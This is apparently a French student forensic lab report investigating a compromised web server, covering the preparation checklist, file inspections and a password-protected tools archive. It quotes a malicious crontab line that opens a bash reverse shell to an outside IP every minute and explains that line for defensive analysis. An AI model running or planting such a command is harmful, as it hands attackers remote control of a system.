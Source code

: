 # Rapport d'analyse

### Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.



### Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

### Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 


#### Résultats

dans cette commande :

![Alt text](https://github.com/LuKieru/FORENSIC_TP_BOURGEOIS_LUCAS/blob/main/TP03/img/history.png "cat_hosts_passwd.png")

on voit qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword"


>unzip bosch_cyber_tools.zip 

demande un ==mot de passe==

> cat /etc/hosts

172.18.0.2

>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```


>cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
>cat .cache/

rien

>cat crontab

*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

tache planifiée :
Il s'agit d'une tâche planifiée appelée Cron job, qui est exécutée sur un système Unix.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.

Cette commande ouvre un shell Bash et redirige son entrée/sortie vers un socket réseau. Plus précisément, elle envoie toute la sortie standard au socket réseau à l'adresse IP 138.66.89.12 et au numéro de port 4444, et elle envoie toute l'entrée standard depuis le socket réseau vers le shell Bash.

Ceci semble être une tentative de créer un shell inversé vers une machine distante à l'adresse IP et au numéro de port spécifiés. Il est important de noter que de telles actions peuvent être illégales et potentiellement nocives. Il est recommandé de enquêter et de remédier à de telles activités sur un système.

>cat access.log | grep "138.66.89.12"

résultat en image
